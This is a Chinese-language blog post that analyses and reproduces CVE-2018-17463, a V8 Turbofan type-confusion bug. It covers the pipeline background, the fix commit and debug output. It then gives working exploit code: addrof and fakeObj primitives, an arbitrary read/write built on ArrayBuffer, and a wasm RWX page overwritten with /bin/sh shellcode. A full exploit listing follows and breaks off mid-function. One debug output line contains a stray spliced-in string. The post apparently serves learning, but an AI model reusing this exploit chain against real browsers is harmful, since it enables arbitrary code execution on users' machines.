




# V8漏洞CVE-2018-17463分析与复现 - 先知社区

V8漏洞CVE-2018-17463分析与复现

- - -

最近在学习V8的compiler pipeline，CVE-2018-17463是一个很好的学习例子，该漏洞是由于V8在编译优化过程中消除检查节点造成的类型混淆错误，最终可造成任意代码执行。因为是第一次复现真实的V8漏洞，查阅了很多文档和博客，算是一个比较初学者视角的学习笔记。

## Compiler Pipeline简介

V8的整个compiler pipeline可以用下图表示，一段JS代码首先被转换成AST，然后在Ignition中解析并转换成V8的字节码，当字节码在执行JS函数的过程中，会收集profiling和feedback数据，这些信息会被Turbofan用来优化生成机器码。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231119200817-53123e52-86d4-1.png)

### Ignition

Ignition是V8引擎的解释器，这个阶段旨在快速启动执行JS代码，通过解释器直接执行字节码，它并不产生机器代码。它具有以下的功能和特点：

-   **字节码生成：** Ignition将JavaScript源代码解析为字节码，这是一种更加紧凑和机器友好的中间表示。字节码是一组高度优化的指令序列，更易于解释器执行。
-   **解释执行：** Ignition的主要任务是解释执行字节码。通过直接执行字节码，Ignition能够快速启动JavaScript应用程序，而无需等待完整的编译过程。
-   **快速启动和执行：** 为了提高启动速度，Ignition专注于快速执行，避免了一些传统解释器执行源代码时的性能瓶颈。这使得V8引擎能够在用户启动网页或执行简单命令时迅速响应。

### Sparkplug

在CVE-2018-17463这一版本中并没有这一阶段，Sparkplug是在V8 9.1版本中引入的非优化JS编译器，它位于Ignition和Turbofan之间，用于产生未经优化的机器码。  
引入Sparkplug的原因非常简单，因为Ignition的性能达到了一个瓶颈，对于字节码的解释执行永远无法摆脱字节码解码等开销，而Turbofan的优化需要收集足够的运行时反馈信息，否则无法获取稳定的object shape，因此无法更早地进行优化。  
Sparkplug具有以下的功能和特点：

-   **快速编译：** Sparkplug的设计目标之一是实现快速编译。它使用一些巧妙的技巧，如在字节码已经生成的基础上进行编译，避免了一些复杂的工作。
-   **直接生成机器码：** Sparkplug直接在字节码上执行线性通道生成机器代码。这种方法减少了编译器的优化机会，但使得代码易于移植，而且由于后续流水线中有强大的优化编译器（TurboFan），这并不成问题。
-   **解释器兼容栈帧：** 引入新编译器到已有的JS虚拟机中是一项艰巨的任务。为了解决这个问题，Sparkplug保持了“解释器兼容栈帧”，与Ignition解释器的栈帧结构基本一致，使得在整个系统中的集成变得简单。

### Turbofan

Turbofan是V8引擎的最终优化编译器，负责将IR转换为高度优化的机器代码。在这个阶段，V8会根据程序的执行情况应用更复杂的优化策略，包括内联缓存、类型推断、循环优化等。Turbofan生成的机器代码是高度优化的，以提供最佳的性能。但是，由于优化的程度很高，在这一阶段很容易产生错误。CVE-2018-17463就是由于在优化过程中操作的side effect判断不正确，造成了类型混淆错误。

## 漏洞信息

查看[\# Issue 888923](https://bugs.chromium.org/p/chromium/issues/detail?id=888923)，我们可以看到该问题的初始修复补丁是通过提交`52a9e67a477bdb67ca893c25c145ef5191976220`推送的，提交信息为“\[turbofan\] Fix ObjectCreate's side effect annotation.”。有了这个信息，可以使用`git show`命令来查看该commit修复了什么。

```plain
commit 52a9e67a477bdb67ca893c25c145ef5191976220  
Author: Jaroslav Sevcik <jarin@chromium.org>  
Date:   Wed Sep 26 13:23:47 2018 +0200  

   [turbofan] Fix ObjectCreate's side effect annotation.  

   Bug: chromium:888923  
   Change-Id: Ifb22cd9b34f53de3cf6e47cd92f3c0abeb10ac79  
   Reviewed-on: https://chromium-review.googlesource.com/1245763  
   Reviewed-by: Benedikt Meurer <bmeurer@chromium.org>  
   Commit-Queue: Jaroslav Sevcik <jarin@chromium.org>  
   Cr-Commit-Position: refs/heads/master@{#56236}  

diff --git a/src/compiler/js-operator.cc b/src/compiler/js-operator.cc  
index 94b018c987d..5ed3f74e075 100644  
--- a/src/compiler/js-operator.cc  
+++ b/src/compiler/js-operator.cc  
@@ -622,7 +622,7 @@ CompareOperationHint CompareOperationHintOf(const Operator* op) {  
  V(CreateKeyValueArray, Operator::kEliminatable, 2, 1)                \  
  V(CreatePromise, Operator::kEliminatable, 0, 1)                      \  
  V(CreateTypedArray, Operator::kNoProperties, 5, 1)                   \  
-  V(CreateObject, Operator::kNoWrite, 1, 1)                            \  
+  V(CreateObject, Operator::kNoProperties, 1, 1)                       \  
  V(ObjectIsArray, Operator::kNoProperties, 1, 1)                      \  
  V(HasProperty, Operator::kNoProperties, 2, 1)                        \  
  V(HasInPrototypeChain, Operator::kNoProperties, 2, 1)                \  
diff --git a/test/mjsunit/compiler/regress-888923.js b/test/mjsunit/compiler/regress-888923.js  
new file mode 100644  
index 00000000000..e352673b7d9  
--- /dev/null  
+++ b/test/mjsunit/compiler/regress-888923.js  
@@ -0,0 +1,31 @@  
+// Copyright 2018 the V8 project authors. All rights reserved.  
+// Use of this source code is governed by a BSD-style license that can be  
+// found in the LICENSE file.  
+  
+// Flags: --allow-natives-syntax  
+  
+(function() {  
+  function f(o) {  
+    o.x;  
+    Object.create(o);  
+    return o.y.a;  
+  }  
+  
+  f({ x : 0, y : { a : 1 } });  
+  f({ x : 0, y : { a : 2 } });  
+  %OptimizeFunctionOnNextCall(f);  
+  assertEquals(3, f({ x : 0, y : { a : 3 } }));  
+})();  
+  
+(function() {  
+  function f(o) {  
+    let a = o.y;  
+    Object.create(o);  
+    return o.x + a;  
+  }  
+  
+  f({ x : 42, y : 21 });  
+  f({ x : 42, y : 21 });  
+  %OptimizeFunctionOnNextCall(f);  
+  assertEquals(63, f({ x : 42, y : 21 }));  
+})();
```

可以大致了解这一漏洞为何产生，如何触发，这个放在后面去分析。首先需要将代码切换到未修复这一bug的版本，使用`git log 52a9e67a477bdb67ca893c25c145ef5191976220`查看commit信息。

```plain
commit 52a9e67a477bdb67ca893c25c145ef5191976220  
Author: Jaroslav Sevcik <jarin@chromium.org>  
Date:   Wed Sep 26 13:23:47 2018 +0200  

   [turbofan] Fix ObjectCreate's side effect annotation.  

   Bug: chromium:888923  
   Change-Id: Ifb22cd9b34f53de3cf6e47cd92f3c0abeb10ac79  
   Reviewed-on: https://chromium-review.googlesource.com/1245763  
   Reviewed-by: Benedikt Meurer <bmeurer@chromium.org>  
   Commit-Queue: Jaroslav Sevcik <jarin@chromium.org>  
   Cr-Commit-Position: refs/heads/master@{#56236}  

commit 568979f4d891bafec875fab20f608ff9392f4f29
Author: Toon Verwaest <verwaest@chromium.org>  
Date:   Wed Sep 26 12:38:28 2018 +0200  

   [parser] Fix memory accounting of explicitly cleared zones  

   Bug: chromium:889086  
   Change-Id: Ie5a6a9e27260545469ea62d35b9571c0524f0f92  
   Reviewed-on: https://chromium-review.googlesource.com/1245427  
   Reviewed-by: Marja Hölttä <marja@chromium.org>  
   Commit-Queue: Toon Verwaest <verwaest@chromium.org>  
   Cr-Commit-Position: refs/heads/master@{#56235}
```

可以看到包含这一漏洞的最后一个commit是`568979f4d891bafec875fab20f608ff9392f4f29`，使用`git checkout`命令切换到这一commit。

## 漏洞分析

通过仔细分析漏洞的patch，可以发现漏洞存在于`src/compiler/js-operator.cc`中。在这里，代码定义了许多标识，实际上只进行了一处修改，就是将`CreateObject`的标志从`kNoWrite`变成`kNoProperties`。

```plain
-  V(CreateObject, Operator::kNoWrite, 1, 1)                            \  
+  V(CreateObject, Operator::kNoProperties, 1, 1)                       \
```

这些标志位的定义在`src`中，是一个枚举类。

```plain
enum Property {
    kNoProperties = 0,
    kCommutative = 1 << 0,  // OP(a, b) == OP(b, a) for all inputs.
    kAssociative = 1 << 1,  // OP(a, OP(b,c)) == OP(OP(a,b), c) for all inputs.
    kIdempotent = 1 << 2,   // OP(a); OP(a) == OP(a).
    kNoRead = 1 << 3,       // Has no scheduling dependency on Effects
    kNoWrite = 1 << 4,      // Does not modify any Effects and thereby
                            // create new scheduling dependencies.
    kNoThrow = 1 << 5,      // Can never generate an exception.
    kNoDeopt = 1 << 6,      // Can never generate an eager deoptimization exit.
    kFoldable = kNoRead | kNoWrite,
    kKontrol = kNoDeopt | kFoldable | kNoThrow,
    kEliminatable = kNoDeopt | kNoWrite | kNoThrow,
    kPure = kNoDeopt | kNoRead | kNoWrite | kNoThrow | kIdempotent
  };
```

可以看出`kNoWrite`表示一个操作并不产生任何side effects，很容易猜到，`CreateObject`应当是产生了一定的side effect。通过调试可以发现在`Map::CopyNormalized`函数中，使用`set_is_dictionary_map(true)`将新生成的map设定为`dictionary`模式。修改commit中给出的poc做一个调试和验证。

```plain
function f(o) {
  let a = o.y;
  Object.create(o);
  return o.x + a;
}

let obj = {x: 42, y: 21};
%DebugPrint(obj);
f(obj);
%DebugPrint(obj);
```

在执行f前后输出obj信息，执行输出结果如下。

```plain
$ ./d8 --allow-natives-syntax poc.js  
DebugPrint: 0x1909d7a8e599: [JS_OBJECT_TYPE]  
- map: 0x0a49d638c9d1 <Map(HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x1c4b472046d9 <Object map = 0xa49d63822f1>  
- elements: 0x20bfb0802cf1 <FixedArray[0]> [HOLEY_ELEMENTS]  
- properties: 0x20bfb0802cf1 <FixedArray[0]> {  
   #x: 42 (data field 0)  
   #y: 21 (data field 1)  
}  
0xa49d638c9d1: [Map]  
- type: JS_OBJECT_TYPE  
- instance size: 40  
- inobject properties: 2  
- elements kind: HOLEY_ELEMENTS  
- unused property fields: 0  
- enum length: invalid  
- back pointer: 0x0a49d638c981 <Map(HOLEY_ELEMENTS)>  
- prototype_validity cell: 0x07f205882201 <Cell value= 1>  
- instance descriptors (own) #2: 0x1909d7a8e2a1 <DescriptorArray[8]>  
- layout descriptor: (nil)  
- prototype: 0x1c4b472046d9 <Object map = 0xa49d63822f1>  
- constructor: 0x1c4b47204711 <JSFunction Object (sfi = 0x7f20588f991)>  
- dependent code: 0x20bfb0802391 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>  
- construction counter: 0  

DebugPrint: 0x1909d7a8e599: [JS_OBJECT_TYPE]  
- map: 0x0a49d638cca1 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]  
- prototype: 0x1c4b472046d9 <Object map = 0xa49d63822f1>  
- elements: 0x20bfb0802cf1 <FixedArray[0]> [HOLEY_ELEMENTS]  
- properties: 0x1909d7a8e5f1 <NameDictionary[29]> {  
  #y: 21 (data, dict_index: 2, attrs: [WEC])  
  #x: 42 (data, dict_index: 1, attrs: [WEC])  
}  
0xa49d638cca1: [Map]  
- type: JS_OBJECT_TYPE  
- instance size: 40  
- inobject properties: 2  
- elements kind: HOLEY_ELEMENTS  
- unused property fields: 0  
- enum length: invalid  
- dictionary_map  
- may_have_interesting_symbols  walkthrough://vscode_getting_started_page
- prototype_map  
- prototype info: 0x1c4b47223811 <PrototypeInfo>  
- prototype_validity cell: 0x07f205882201 <Cell value= 1>  
- instance descriptors (own) #0: 0x20bfb0802321 <DescriptorArray[2]>  
- layout descriptor: (nil)  
- prototype: 0x1c4b472046d9 <Object map = 0xa49d63822f1>  
- constructor: 0x1c4b47204711 <JSFunction Object (sfi = 0x7f20588f991)>  
- dependent code: 0x20bfb0802391 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>  
- construction counter: 0
```

可以看到，在执行之前，map的类型为`FastProperties`，但是在执行之后map的类型是`DictionaryProperties`。如果`f`经过Turbofan的优化，只保留了第一次的`CheckMaps`，则会导致后一次程序使用fast mode去寻找dictionary mode中的元素，产生错误。再次修改poc，并观察Turbofan的优化过程。

```plain
function vuln(obj) {
  obj.a;
  Object.create(obj)
  return obj.b;
}

vuln({a:42, b:43});
vuln({a:42, b:43});
%OptimizeFunctionOnNextCall(vuln);
vuln({a:42, b:43});
```

首先查看初始的IR图，在每一次`LoadField`之前都进行了`CheckMaps`操作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119200856-69d0fe80-86d4-1.png)

由于`CreateObject`被定义为不写入副作用链，因此消除了冗余，`CheckMaps`节点应该不再存在。正如下图所示的simplified lowering阶段，在调用`JSCreateObject`之后的`CheckMaps`节点已被删除，直接调用`LoadField`节点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119200917-76ccee6e-86d4-1.png)

不过在利用时，需要大量循环来调用这一函数来触发Turbofan的优化。

## 漏洞利用

现在我们有了一个可以工作的Type Confusion漏洞，该漏洞会导致V8将Dictionary当作数组访问，从而允许我们操纵对象内存布局中的函数指针和数据，但是利用的过程十分繁琐。  
经过前面的分析，我们有办法可以让函数中多余的`CheckMaps`节点消失，并且能够通过`CreateObject`改变`Properties`，则很容易可以构造一种非预期情况。首先构造一个`obj`，初始化时赋予属性`a`，然后增加属性`b`，函数中首先访问`a`，通过类型检查，然后读取`x.b`，由于没有类型检查，此时返回一个与原`b`属性偏移相同的数据，但由于`Properties`发生变化，返回的数据不会再是`b`属性的值。  
想要稳定利用这一漏洞，一个很大的问题在于，Dictionary内部的内存布局是随机的，不过在V8中有一规律，相同属性的`obj`，在`Dictionary`中各属性的偏移也相同。根据这一规律，我们可以使用同样的构造方式来构造具有相同属性的不同`obj`，来满足不同的需求。

### Property Overlapping

根据上面的分析，利用这一漏洞时，访问属性`b`时会访问到一个其他的元素。我们可以利用这种property overlapping，实现类型混淆。如属性`b`是一个`Number`类型，而另一个属性是一个`Object`类型，访问属性`b`会以`Number`的方式读出`Object`的地址，造成地址泄露。如果想要控制泄露的`Object`，就需要知道另一个属性是什么。  
下面是一种比较简单常用的方法，按照一定的规律进行赋值，如属性`bi`的值定义为`-i`，然后依次读取，如果读出的值与原值不同，则可以根据读出的值找到最终读出的是哪一个属性的值。

```plain
function getObj(values) {
  let obj = { a: 1234 };
  for (let i = 0; i < 32; i++) {
    Object.defineProperty(obj, 'b' + i, {
      writable: true,
      value: values[i]
    });
  }
  return obj;
}

let p1, p2;

function findOverlapping() {
  let names = [];
  for (let i = 0; i < 32; i++) {
    names[i] = 'b' + i;
  }

  eval(`
    function vuln(obj) {
      obj.a;
      this.Object.create(obj);
      ${names.map((b) => `let ${b} = obj.${b};`).join('\n')}
      return [${names.join(', ')}];
    }
  `)

  let values = [];
  for (let i = 1; i < 32; i++) {
    values[i] = -i;
  }

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    for (let i = 1; i < res.length; i++) {
      if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
        [p1, p2] = [i, -res[i]];
        return;
      }
    }
  }
  throw "[!] Failed to find overlapping";
}

print("step 1: check whether vulnerability exists");
check_vul();
print("[+] Finding Overlapping Properties...");
findOverlapping();
print(`[+] Properties b${p1} and p${p2} overlap!`);
```

很容易可以找到我们需要的两个属性。

```plain
[+] Finding Overlapping Properties...  
[+] Properties b12 and b21 overlap!
```

### Addr Of

`Addrof`是一个在V8利用中很常见的原语，用来泄露一个`obj`的地址。当我们有类型混淆漏洞时，这个原语的实现就十分简单，在前面也介绍过。我们将上一步中得到的第一个属性记为`p1`，第二个属性记为`p2`，由于对`p1`的访问实际上是对`p2`内容的访问，设置属性`p1`为`Number`，属性`p2`为想要泄露地址的`Object obj`，通过读取`p1`就可以读取出`obj`的地址。

```plain
function addrof(obj) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    return obj.b${p1}.x1;
  }
`);


  let values = [];
  values[p1] = { x1: 1.1, x2: 1.2 };
  values[p2] = { y: obj };

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    if (res != 1.1) {
      print(`[+] Object Address: ${Int64.fromDouble(res).toString()}`);
      return res;
    }
  }
  throw "[!] AddrOf Primitive Failed"
}
```

上面的代码中，`vuln`函数访问了`p1`的`x1`，在产生优化之后，会访问到`p2`的`y`也就是`obj`，从而以浮点数返回`obj`的地址。

### Arbitrary Write

同样，我们可以构造一个`Object`，如下面的`o`，其中的各个属性均为`Number`。

```plain
let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;
```

我们对`p1`中的`x1`和`x2`进行写入时，实际上会写入`obj`中的对应位置。这里有一个非常常用的结构`ArrayBuffer`，其中的`backing_store`字段存放了一个内存地址，该地址是实际读写时的地址。如果能够修改该地址为任意地址，则可以利用这一`ArrayBuffer`达到任意地址读写的效果。  
通过调试很容易发现，`backing_store`和`x2`的偏移相同，因此对`x2`进行修改能够达到修改`backing_store`的作用，进而可以控制`ArrayBuffer`任意地址读写。

```plain
function fakeObj(obj, addr) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    let orig = obj.b${p1}.x2;
    obj.b${p1}.x2 = ${addr};
    return orig;
  }
`);

  let values = [];
  let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;

  for (let i = 0; i < 10000; i++) {
    o.x2 = 1.2;
    let res = vuln(getObj(values));
    if (res != 1.2) {
      return res;
    }
  }
  throw "[!] fakeObj Primitive Failed"
}
```

### Get Shell

Get shell的方法比较常规，通过`wasm`分配一块可读写可执行的内存，然后通过间接寻址找到这一内存，在这一版本中`wasmInstance`偏移`0xf0`处即为该地址。通过任意地址读写讲shellcode写入，通过调用wasm中的函数执行写入的shellcode。

```plain
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
let mem = new ArrayBuffer(1024);
let dv = new DataView(mem);
let addr = addrof(wasmInstance);
fakeObj(mem, addr);
let code_addr = Int64.fromDouble(dv.getFloat64(0xf0 - 1, true));
print("rwx addr", code_addr);
fakeObj(mem, code_addr.asDouble());
let shellcode = [
  0x2fbb485299583b6an,
  0x5368732f6e69622fn,
  0x050f5e5457525f54n
];
let data_view = new DataView(mem);
for (let i = 0; i < 3; i++)
  data_view.setBigUint64(8 * i, shellcode[i], true);
f();
```

## exp

完整的exp如下，前面的板子来自[这里](http://p4nda.top/2019/06/11/%C2%96CVE-2018-17463/)。

```plain
function gc() {
  /*fill-up the 1MB semi-space page, force V8 to scavenge NewSpace.*/
  for (var i = 0; i < ((1024 * 1024) / 0x10); i++) {
    var a = new String();
  }
}

function give_me_a_clean_newspace() {
  /*force V8 to scavenge NewSpace twice to get a clean NewSpace.*/
  gc()
  gc()
}

let floatView = new Float64Array(1);
let uint64View = new BigUint64Array(floatView.buffer);

Number.prototype.toBigInt = function toBigInt() {
  floatView[0] = this;
  return uint64View[0];
};

BigInt.prototype.toNumber = function toNumber() {
  uint64View[0] = this;
  return floatView[0];
};

function hex(b) {
  return ('0' + b.toString(16)).substr(-2);
}

// Return the hexadecimal representation of the given byte array.
function hexlify(bytes) {
  var res = [];
  for (var i = 0; i < bytes.length; i++)
    res.push(hex(bytes[i]));
  return res.join('');
}

// Return the binary data represented by the given hexdecimal string.
function unhexlify(hexstr) {
  if (hexstr.length % 2 == 1)
    throw new TypeError("Invalid hex string");
  var bytes = new Uint8Array(hexstr.length / 2);
  for (var i = 0; i < hexstr.length; i += 2)
    bytes[i / 2] = parseInt(hexstr.substr(i, 2), 16);
  return bytes;
}

function hexdump(data) {
  if (typeof data.BYTES_PER_ELEMENT !== 'undefined')
    data = Array.from(data);
  var lines = [];
  for (var i = 0; i < data.length; i += 16) {
    var chunk = data.slice(i, i + 16);
    var parts = chunk.map(hex);
    if (parts.length > 8)
      parts.splice(8, 0, ' ');
    lines.push(parts.join(' '));
  }
  return lines.join('\n');
}

// Simplified version of the similarly named python module.
var Struct = (function () {
  // Allocate these once to avoid unecessary heap allocations during pack/unpack operations.
  var buffer = new ArrayBuffer(8);
  var byteView = new Uint8Array(buffer);
  var uint32View = new Uint32Array(buffer);
  var float64View = new Float64Array(buffer);
  return {
    pack: function (type, value) {
      var view = type;        // See below
      view[0] = value;
      return new Uint8Array(buffer, 0, type.BYTES_PER_ELEMENT);
    },
    unpack: function (type, bytes) {
      if (bytes.length !== type.BYTES_PER_ELEMENT)
        throw Error("Invalid bytearray");
      var view = type;        // See below
      byteView.set(bytes);
      return view[0];
    },
    // Available types.
    int8: byteView,
    int32: uint32View,
    float64: float64View
  };
})();
//
// Tiny module that provides big (64bit) integers.
//
// Copyright (c) 2016 Samuel Groß
//
// Requires utils.js
//
// Datatype to represent 64-bit integers.
//
// Internally, the integer is stored as a Uint8Array in little endian byte order.
function Int64(v) {
  // The underlying byte array.
  var bytes = new Uint8Array(8);
  switch (typeof v) {
    case 'number':
      v = '0x' + Math.floor(v).toString(16);
    case 'string':
      if (v.startsWith('0x'))
        v = v.substr(2);
      if (v.length % 2 == 1)
        v = '0' + v;
      var bigEndian = unhexlify(v, 8);
      bytes.set(Array.from(bigEndian).reverse());
      break;
    case 'object':
      if (v instanceof Int64) {
        bytes.set(v.bytes());
      } else {
        if (v.length != 8)
          throw TypeError("Array must have excactly 8 elements.");
        bytes.set(v);
      }
      break;
    case 'undefined':
      break;
    default:
      throw TypeError("Int64 constructor requires an argument.");
  }
  // Return a double whith the same underlying bit representation.
  this.asDouble = function () {
    // Check for NaN
    if (bytes[7] == 0xff && (bytes[6] == 0xff || bytes[6] == 0xfe))
      throw new RangeError("Integer can not be represented by a double");
    return Struct.unpack(Struct.float64, bytes);
  };
  // Return a javascript value with the same underlying bit representation.
  // This is only possible for integers in the range [0x0001000000000000, 0xffff000000000000)
  // due to double conversion constraints.
  this.asJSValue = function () {
    if ((bytes[7] == 0 && bytes[6] == 0) || (bytes[7] == 0xff && bytes[6] == 0xff))
      throw new RangeError("Integer can not be represented by a JSValue");
    // For NaN-boxing, JSC adds 2^48 to a double value's bit pattern.
    this.assignSub(this, 0x1000000000000);
    var res = Struct.unpack(Struct.float64, bytes);
    this.assignAdd(this, 0x1000000000000);
    return res;
  };
  // Return the underlying bytes of this number as array.
  this.bytes = function () {
    return Array.from(bytes);
  };
  // Return the byte at the given index.
  this.byteAt = function (i) {
    return bytes[i];
  };
  // Return the value of this number as unsigned hex string.
  this.toString = function () {
    return '0x' + hexlify(Array.from(bytes).reverse());
  };
  // Basic arithmetic.
  // These functions assign the result of the computation to their 'this' object.
  // Decorator for Int64 instance operations. Takes care
  // of converting arguments to Int64 instances if required.
  function operation(f, nargs) {
    return function () {
      if (arguments.length != nargs)
        throw Error("Not enough arguments for function " + f.name);
      for (var i = 0; i < arguments.length; i++)
        if (!(arguments[i] instanceof Int64))
          arguments[i] = new Int64(arguments[i]);
      return f.apply(this, arguments);
    };
  }

  // this = -n (two's complement)
  this.assignNeg = operation(function neg(n) {
    for (var i = 0; i < 8; i++)
      bytes[i] = ~n.byteAt(i);
    return this.assignAdd(this, Int64.One);
  }, 1);
  // this = a + b
  this.assignAdd = operation(function add(a, b) {
    var carry = 0;
    for (var i = 0; i < 8; i++) {
      var cur = a.byteAt(i) + b.byteAt(i) + carry;
      carry = cur > 0xff | 0;
      bytes[i] = cur;
    }
    return this;
  }, 2);
  // this = a - b
  this.assignSub = operation(function sub(a, b) {
    var carry = 0;
    for (var i = 0; i < 8; i++) {
      var cur = a.byteAt(i) - b.byteAt(i) - carry;
      carry = cur < 0 | 0;
      bytes[i] = cur;
    }
    return this;
  }, 2);
}

// Constructs a new Int64 instance with the same bit representation as the provided double.
Int64.fromDouble = function (d) {
  var bytes = Struct.pack(Struct.float64, d);
  return new Int64(bytes);
};
// Convenience functions. These allocate a new Int64 to hold the result.
// Return -n (two's complement)
function Neg(n) {
  return (new Int64()).assignNeg(n);
}

// Return a + b
function Add(a, b) {
  return (new Int64()).assignAdd(a, b);
}

// Return a - b
function Sub(a, b) {
  return (new Int64()).assignSub(a, b);
}

// Some commonly used numbers.
Int64.Zero = new Int64(0);
Int64.One = new Int64(1);

function utf8ToString(h, p) {
  let s = "";
  for (i = p; h[i]; i++) {
    s += String.fromCharCode(h[i]);
  }
  return s;
}

function log(x, y = ' ') {
  print("[+] log:", x, y);
}

// =================== //
//     Start here!     //
// =================== //

function check_vul() {
  function vuln(x) {
    x.a;
    Object.create(x);
    return x.b;

  }

  for (let i = 0; i < 10000; i++) {
    let x = { a: 0x1234 };
    x.b = 0x5678;
    let res = vuln(x);
    if (res != 0x5678) {
      log("CVE-2018-17463 exists in the d8");
      return;
    }

  }
  throw "bad d8 version";

}

function getObj(values) {
  let obj = { a: 1234 };
  for (let i = 0; i < 32; i++) {
    Object.defineProperty(obj, 'b' + i, {
      writable: true,
      value: values[i]
    });
  }
  return obj;
}

let p1, p2;

function findOverlapping() {
  let names = [];
  for (let i = 0; i < 32; i++) {
    names[i] = 'b' + i;
  }

  eval(`
    function vuln(obj) {
      obj.a;
      this.Object.create(obj);
      ${names.map((b) => `let ${b} = obj.${b};`).join('\n')}
      return [${names.join(', ')}];
    }
  `)

  let values = [];
  for (let i = 1; i < 32; i++) {
    values[i] = -i;
  }

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    for (let i = 1; i < res.length; i++) {
